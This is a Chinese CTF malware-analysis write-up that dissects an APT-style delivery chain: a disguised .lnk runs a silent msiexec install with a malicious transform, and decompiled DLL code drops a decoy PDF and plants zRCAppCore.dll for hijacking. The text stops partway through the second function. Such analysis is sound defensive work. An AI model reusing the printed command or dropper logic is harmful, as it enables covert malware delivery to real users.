










## 前言

零音以「スターエンド 101」队员的名义参加了 ISCTF 2025，并于周二 ALL CLEAR 病毒分析赛道的 12 道题目。病毒分析一直是零音感兴趣却从未上手尝试过的领域，故这一次借助 ISCTF 的题目初探了这一领域。

本次 ISCTF 2025 的病毒分析题目是一道极具实战意义的高质量赛题。题目高度还原了知名 APT 组织「新海莲花」的经典攻击手法：利用 `.rar` 压缩包配合伪装的 `.lnk` 快捷方式进行投递，结合 Windows Installer（`.msi`）的 Transform（`.mst`）注入技术，将恶意载荷隐藏在合法的软件安装包中。这种「白+黑」的攻击链条设计精巧，不仅绕过了常规的静态查杀，更对分析者的逆向功底和取证思维提出了双重考验。从最初的文件提取，到中间的 Dropper 分析与 DLL 劫持，再到深层的 Process Hollowing 注入，直至最终的 C2 通信复原，整个过程环环相扣。

本文将通过静态逆向与动态调试相结合的方式，抽丝剥茧，完整复盘这一条完整的 APT 攻击链，揭开隐藏在合法 Zoom 安装包背后的真相。

## Stage I「隐」

下载题目给出的附件文件 `ISCTF.rar` 并解压，得到如下文件：

```plain
┌──(zeraith㉿stella16)-[/mnt/s/ISCTF_2025/Virus_Analysis/ISCTF]
└─$ ls -la
total 7968
drwxrwxrwx 1 zeraith zeraith    4096 Dec  3 21:53 .
drwxrwxrwx 1 zeraith zeraith    4096 Dec  3 21:53 ..
-rwxrwxrwx 1 zeraith zeraith  786432 Dec  1 19:54 fR6Wl
-rwxrwxrwx 1 zeraith zeraith    2179 Dec  1 20:56 ISCTF基础规则说明文档.pdf.lnk
-rwxrwxrwx 1 zeraith zeraith 7368704 Dec  1 19:54 TJe1w
```

其中 `fR6Wl` 和 `Tje1w` 两个文件在 Windows 文件资源管理器中设置了「隐藏」属性。由于 Windows 文件资源管理器的特性，`.lnk` 文件在显示名称时不会显示扩展名，因此用户仅可见 `ISCTF基础规则说明文档.pdf` 这一部分。因此，对于经验不足的 Windows 用户而言，若未开启显示隐藏项目的功能，则看起来压缩包解压后的文件夹中仅含有一个正常的 `.pdf` 文件，用户极容易双击中招。



右键该 `.lnk` 文件并查看属性，可见其目标为

```cmd
C:\Windows\System32\msiexec.exe /i Tje1w TRANSFORMS=fR6Wl /qn
```



这是一个 Windows Installer 命令行，它请求 `msiexec.exe` 安装一个名为 `Tje1w` 的 `.msi` 安装包，并应用一个名为 `fR6Wl` 的 `.mst` 文件来动态修改原始 `.msi` 包的安装行为。`/qn` 表示 **Quiet Mode** 和 **No UI**，这意味着整个过程将会完全静默地进行。这两个隐藏文件未使用 `.msi` 和 `.mst` 的扩展名，是为了混淆用户和杀毒软件，让后者误以为其为普通的杂项文件。

值得注意的是，倘若用户直接双击 `.lnk` 文件，则会弹出 UAC 弹窗提示用户是否继续。在当前场景下，若用户关闭了 UAC，则双击后计算机会直接中招。正因如此，零音非常不建议用户关闭 UAC 功能。

### 使用 Orca 分析 `.mst` 文件

接下来，我们使用 Orca 分析该 `.msi` 和 `.mst` 文件。为便于分析，下文我们将 `TJe1w` 重命名为 `base.msi`，将 `fR6W1` 重命名为 `evil.mst`。

:::tip
Orca 是一款用于创建和编辑 Windows Installer 包及合并模块的数据库表编辑器。该工具提供图形化的验证界面，能标出验证过程中出现错误或警告的具体条目。Orca 仅随附于 [Windows SDK Components for Windows Installer Developers](https://learn.microsoft.com/en-us/windows/win32/msi/platform-sdk-components-for-windows-installer-developers) 包中，作为一个 `.msi` 存在，用户需要手动安装。
:::

安装 Orca 后打开，在菜单栏 **File > Open** 后选择 `base.msi`，再在菜单栏 **Transform > Apply Transform** 并选择 `evil.mst` 即可。注意到左侧出现了许多 **Tables**，这些即为 `.msi` 预期对 Windows 做出的修改；而部分表的左侧出现了绿色竖线，这代表导入的 `.mst` 文件对 Windows 新增的修改。



考虑到一般「白+黑」的攻击策略，`.msi` 文件通常是正常的白文件。在本题中，`base.msi` 是 **Zoom Remote Control Installer**，是合法的 Zoom 安装包。我们确信「白」不会对 Windows 造成危害，那么，「黑」（`.mst`）所做出的更改则需要加以关注。我们注意到，共有 4 个表发生了更改：

#### 表 `Binary`

表 `Binary` 通常是掩藏二进制文件的地方，一般用于存储 Payload。在这里，我们发现数据 `zTool` 具有 `Data` 为二进制数据。双击 `[Binary Data]` 后弹出窗口 **Edit Binary Stream** 后选择 **Action** 为 **Write binary to file**，并指定一个 **Filename** 即可将二进制数据保存下来。我们将其存为 `Payload.dll`。

:::tip
为什么是 dll？在后文中我们将提到，`CustomAction Type` 为 `2305`，即 `0x900 + 1`。这里，`1` 代表 **DLL stored in a Binary table stream**，即存储在 `Binary` 表中的 DLL 文件，而 `0x900` 则代表 **deferred execution + no impersonation**。由此可以判断出该二进制文件是 `.dll`——当然，对于注意力涣散的朋友，亦可先导出，后使用 `file` 查看类型。
:::



#### 表 `CustomAction`

表 `CustomAction` 一般用于指定程序安装过程中的自定义行为。在这里，我们注意到条目 `Action` 名为 `RunTools` 的 `CustomAction` 具有 `Type` 为 `2305`（在前文已使用），其 `Source` 为 `zTool`，而 `Target` 为 `Utils`。`Source` 说明了它将会在运行过程中自动执行有关 `Source` 的内容，而 `Target` 作为 DLL 的导出函数名，则指出它将要执行的是 `Source` 的 `Utils` 函数。这昭示我们要逆向分析这个 DLL 的 `Utils` 函数。



#### 表 `File`

表 `File` 中多出了一个条目，其 `FileName` 为 `ZRC.DLL|zRC.dll`。在实际分析过程中，我们事实上并未完全清楚该文件是什么以及其用途如何，故先保留。

#### 表 `InstallExecuteSequence`

表 `InstallExecuteSequence` 指示软件安装过程中各个行为的运行顺序。这里，新增的条目 `RunTools` 的运行次序为 `6601`，即说明后门的植入将发生在安装结束后（考虑到 `InstallFinalize` 的 `Sequence` 为 `6600`）。

## Stage II「跃」

### 逆向 DLL 的 `Utils` 函数

我们在前文提到了，我们需要逆向该 DLL 的 `Utils` 函数，这里我们使用 IDA Pro 完成这一点。在 IDA Pro 的左侧找到 `Utils` 函数，发现它由三部分构成。这里我们分别分析这三个子函数。

```c
int Utils()
{
    sub_10001E70();
    sub_10002230();
    sub_10002530();
  return 0;
}
```

#### Function 1「障眼」

```c
HRSRC __usercall sub_10001E70@<eax>(int a1@<ebp>)
{
  HRSRC hResInfo; // eax
  HRSRC hResInfo_1; // edi
  HGLOBAL hResData; // esi
  DWORD v4; // edi
  LPVOID v5; // esi
  __int128 *v6; // eax
  _BYTE *v7; // edx
  __int128 *p_p_lpFile; // eax
  const WCHAR *lpFile; // eax
  void *p_lpFile_2; // edx
  int v11; // ecx
  int v12; // [esp-31Ch] [ebp-32Ch]
  int v13; // [esp-318h] [ebp-328h]
  int v14; // [esp-314h] [ebp-324h]
  _BYTE *v15; // [esp-300h] [ebp-310h]
  unsigned int n7; // [esp-2ECh] [ebp-2FCh]
  _BYTE v17[4]; // [esp-2E8h] [ebp-2F8h]
  int v18; // [esp-2E4h] [ebp-2F4h] BYREF
  int v19; // [esp-2E0h] [ebp-2F0h] BYREF
  void **p_??_7ios_base@std@@6B@; // [esp-27Ch] [ebp-28Ch] BYREF
  __int128 p_lpFile_1; // [esp-234h] [ebp-244h] BYREF
  __int64 v22; // [esp-224h] [ebp-234h]
  WCHAR pszPath_[264]; // [esp-21Ch] [ebp-22Ch] BYREF
  int *v24; // [esp-Ch] [ebp-1Ch]
  struct _EXCEPTION_REGISTRATION_RECORD *ExceptionList; // [esp-8h] [ebp-18h]
  void *v26; // [esp-4h] [ebp-14h]
  int v27; // [esp+0h] [ebp-10h]
  int v28; // [esp+4h] [ebp-Ch]
  void *v29; // [esp+8h] [ebp-8h]
  int v30; // [esp+Ch] [ebp-4h] BYREF
  void *retaddr; // [esp+10h] [ebp+0h]

  v28 = a1;
  v29 = retaddr;
  v27 = -1;
  v26 = &loc_1001D986;
  ExceptionList = NtCurrentTeb()->NtTib.ExceptionList;
  v24 = &v30;
  hResInfo = FindResourceW(hModule, (LPCWSTR)0x65, L"PDF");
  hResInfo_1 = hResInfo;
  if ( hResInfo )
  {
    hResData = LoadResource(hModule, hResInfo);
    v4 = SizeofResource(hModule, hResInfo_1);
    v5 = LockResource(hResData);
    SHGetFolderPathW(0, 5, 0, 0, pszPath_);
    sub_100028D0(pszPath_);
    v27 = 0;
    v6 = (__int128 *)sub_10004CD0(aIsctf2025, 22);
    v22 = 0;
    p_lpFile_1 = 0;
    p_lpFile_1 = *v6;
    v22 = *((_QWORD *)v6 + 2);
    *((_DWORD *)v6 + 4) = 0;
    *((_DWORD *)v6 + 5) = 7;
    *(_WORD *)v6 = 0;
    LOBYTE(v27) = 2;
    if ( n7 > 7 )
    {
      v7 = v15;
      if ( 2 * n7 + 2 >= 0x1000 )
      {
        v7 = (_BYTE *)*((_DWORD *)v15 - 1);
        if ( (unsigned int)(v15 - v7 - 4) > 0x1F )
        {
          sub_1000A8D1(2 * n7 + 37, 0, 0, 0, 0, 0);
          goto LABEL_18;
        }
      }
      sub_10005E9C(v7);
    }
    sub_10007A70(&v18, 0, 176);
    p_p_lpFile = &p_lpFile_1;
    if ( HIDWORD(v22) > 7 )
      p_p_lpFile = (__int128 *)p_lpFile_1;
    sub_10004160(p_p_lpFile, v12, v13, v14);
    *(int *)((char *)&v18 + *(_DWORD *)(v18 + 4)) = (int)&std::ofstream::`vftable';
    *(_DWORD *)&v17[*(_DWORD *)(v18 + 4)] = *(_DWORD *)(v18 + 4) - 104;
    LOBYTE(v27) = 3;
    sub_100036F0(v5, v4, 0);
    if ( !sub_10004670(&v19) )
      sub_10001D10(
        *(int *)((char *)&v18 + *(_DWORD *)(v18 + 4) + 12)
      | (4 * (*(int *)((char *)&v18 + *(_DWORD *)(v18 + 4) + 56) == 0) + 2),
        0);
    lpFile = (const WCHAR *)&p_lpFile_1;
    if ( HIDWORD(v22) > 7 )
      lpFile = (const WCHAR *)p_lpFile_1;
    ShellExecuteW(0, L"open", lpFile, 0, 0, 1);
    *(int *)((char *)&v18 + *(_DWORD *)(v18 + 4)) = (int)&std::ofstream::`vftable';
    *(_DWORD *)&v17[*(_DWORD *)(v18 + 4)] = *(_DWORD *)(v18 + 4) - 104;
    sub_10003640();
    *(int *)((char *)&v18 + *(_DWORD *)(v18 + 4)) = (int)&std::ostream::`vftable';
    *(_DWORD *)&v17[*(_DWORD *)(v18 + 4)] = *(_DWORD *)(v18 + 4) - 8;
    LOBYTE(v27) = 4;
    p_??_7ios_base@std@@6B@ = &std::ios_base::`vftable';
    hResInfo = (HRSRC)sub_10005A57(&p_??_7ios_base@std@@6B@);
    if ( HIDWORD(v22) > 7 )
    {
      p_lpFile_2 = (void *)p_lpFile_1;
      if ( (unsigned int)(2 * HIDWORD(v22) + 2) < 0x1000 )
        return (HRSRC)sub_10005E9C(p_lpFile_2);
      p_lpFile_2 = *(void **)(p_lpFile_1 - 4);
      v11 = 2 * HIDWORD(v22) + 37;
      if ( (unsigned int)(p_lpFile_1 - (_DWORD)p_lpFile_2 - 4) <= 0x1F )
        return (HRSRC)sub_10005E9C(p_lpFile_2);
LABEL_18:
      sub_1000A8D1(v11, 0, 0, 0, 0, 0);
      JUMPOUT(0x10002194);
    }
  }
  return hResInfo;
}
```

下文分析函数 `sub_10001E70`。该函数为一个 Dropper，释放一个 `.pdf` 文件。

```c
// 0x65 = 101 (十进制)
hResInfo = FindResourceW(hModule, (LPCWSTR)0x65, L"PDF");
hResData = LoadResource(hModule, hResInfo);
v5 = LockResource(hResData);  // v5 指向资源数据的指针
```

函数首先寻找一个 `ID` 为 `101`，类型为 `PDF` 的资源。

```c
// CSIDL_MYDOCUMENTS = 5 (我的文档)
SHGetFolderPathW(0, 5, 0, 0, pszPath_);
```

随后，它获取用户的「文档」文件夹路径。

```c
// 看起来是在把文件名拼接到路径后面
v6 = (__int128 *)sub_10004CD0(aIsctf2025, 22);
```

对于字符串 `aIsctf2025`，若我们直接双击进入，发现 IDA Pro 并未正确识别 UTF-8 中文字符串。



这里有一个小技巧：确保光标放在 `aIsctf2025` 上后，在菜单栏中点选 **Options > String Literals**，在弹出的窗口中点击上面的 **Currently** 按钮，选择 **Encoding** 为 **UTF-16LE**。很有可能我们无法一次选择正确，需要反复尝试，直到 IDA Pro 成功识别。识别成功后，自动生成的变量名可能会发生改变。





继续函数分析。

```c
// C++ 的文件流操作 (std::ofstream)，把资源数据写入磁盘
sub_100036F0(v5, v4, 0);

// ShellExecuteW 用于执行/打开文件
// "open" 操作会调用系统默认的 PDF 阅读器打开它
ShellExecuteW(0, L"open", lpFile, 0, 0, 1);
```

这里，函数将内容写入文件并打开。该函数实为障眼法：在用户自认为打开了 `.pdf` 文件后，该函数写入并打开一个 `.pdf` 文件，以此欺骗用户该 `.pdf` 确为用户打开，从而确保其可以在后台继续进行恶意行为。

#### Function 2「匿身」

```c
HRSRC __usercall sub_10002230@<eax>(int a1@<ebp>)
{
  HRSRC hResInfo; // eax
  HRSRC hResInfo_1; // edi
  HGLOBAL hResData; // esi
  DWORD v4; // edi
  LPVOID v5; // esi
  int *n2147483646; // eax
  int v7; // edx
  int *v8; // eax
  _BYTE *v9; // edx
  __int128 *p_p_lpFile; // eax
  void *p_lpFile_2; // edx
  int v12; // ecx
  int v13; // [esp-320h] [ebp-32Ch]
  int v14; // [esp-31Ch] [ebp-328h]
  int v15; // [esp-318h] [ebp-324h]
  _BYTE *v16; // [esp-304h] [ebp-310h]
  unsigned int n7; // [esp-2F0h] [ebp-2FCh]
  _BYTE v18[4]; // [esp-2ECh] [ebp-2F8h]
  int v19; // [esp-2E8h] [ebp-2F4h] BYREF
  int v20; // [esp-2E4h] [ebp-2F0h] BYREF
  void **p_??_7ios_base@std@@6B@; // [esp-280h] [ebp-28Ch] BYREF
  __int128 p_lpFile_1; // [esp-238h] [ebp-244h] BYREF
  __int64 v23; // [esp-228h] [ebp-234h]
  WCHAR pszPath_[264]; // [esp-220h] [ebp-22Ch] BYREF
  int *v25; // [esp-10h] [ebp-1Ch]
  struct _EXCEPTION_REGISTRATION_RECORD *ExceptionList; // [esp-Ch] [ebp-18h]
  void *v27; // [esp-8h] [ebp-14h]
  int v28; // [esp-4h] [ebp-10h]
  int v29; // [esp+0h] [ebp-Ch]
  void *v30; // [esp+4h] [ebp-8h]
  int v31; // [esp+8h] [ebp-4h] BYREF
  void *retaddr; // [esp+Ch] [ebp+0h]

  v29 = a1;
  v30 = retaddr;
  v28 = -1;
  v27 = &loc_1001D986;
  ExceptionList = NtCurrentTeb()->NtTib.ExceptionList;
  v25 = &v31;
  hResInfo = FindResourceW(hModule, (LPCWSTR)0x66, L"DLL");
  hResInfo_1 = hResInfo;
  if ( hResInfo )
  {
    hResData = LoadResource(hModule, hResInfo);
    v4 = SizeofResource(hModule, hResInfo_1);
    v5 = LockResource(hResData);
    SHGetFolderPathW(0, 42, 0, 0, pszPath_);
    n2147483646 = (int *)sub_100028D0(pszPath_);
    v28 = 0;
    v8 = sub_10004CD0(n2147483646, v7, L"\\ZoomRemoteControl\\bin\\zRCAppCore.dll", 0x25u);
    v23 = 0;
    p_lpFile_1 = 0;
    p_lpFile_1 = *(_OWORD *)v8;
    v23 = *((_QWORD *)v8 + 2);
    v8[4] = 0;
    v8[5] = 7;
    *(_WORD *)v8 = 0;
    LOBYTE(v28) = 2;
    if ( n7 > 7 )
    {
      v9 = v16;
      if ( 2 * n7 + 2 >= 0x1000 )
      {
        v9 = (_BYTE *)*((_DWORD *)v16 - 1);
        if ( (unsigned int)(v16 - v9 - 4) > 0x1F )
        {
          sub_1000A8D1(2 * n7 + 37, 0, 0, 0, 0, 0);
          goto LABEL_15;
        }
      }
      sub_10005E9C(v9);
    }
    sub_10007A70(&v19, 0, 176);
    p_p_lpFile = &p_lpFile_1;
    if ( HIDWORD(v23) > 7 )
      p_p_lpFile = (__int128 *)p_lpFile_1;
    sub_10004160(p_p_lpFile, v13, v14, v15);
    *(int *)((char *)&v19 + *(_DWORD *)(v19 + 4)) = (int)&std::ofstream::`vftable';
    *(_DWORD *)&v18[*(_DWORD *)(v19 + 4)] = *(_DWORD *)(v19 + 4) - 104;
    LOBYTE(v28) = 3;
    sub_100036F0(v5, v4, 0);
    if ( !sub_10004670(&v20) )
      sub_10001D10(
        *(int *)((char *)&v19 + *(_DWORD *)(v19 + 4) + 12)
      | (4 * (*(int *)((char *)&v19 + *(_DWORD *)(v19 + 4) + 56) == 0) + 2),
        0);
    *(int *)((char *)&v19 + *(_DWORD *)(v19 + 4)) = (int)&std::ofstream::`vftable';
    *(_DWORD *)&v18[*(_DWORD *)(v19 + 4)] = *(_DWORD *)(v19 + 4) - 104;
    sub_10003640();
    *(int *)((char *)&v19 + *(_DWORD *)(v19 + 4)) = (int)&std::ostream::`vftable';
    *(_DWORD *)&v18[*(_DWORD *)(v19 + 4)] = *(_DWORD *)(v19 + 4) - 8;
    LOBYTE(v28) = 4;
    p_??_7ios_base@std@@6B@ = &std::ios_base::`vftable';
    hResInfo = (HRSRC)sub_10005A57(&p_??_7ios_base@std@@6B@);
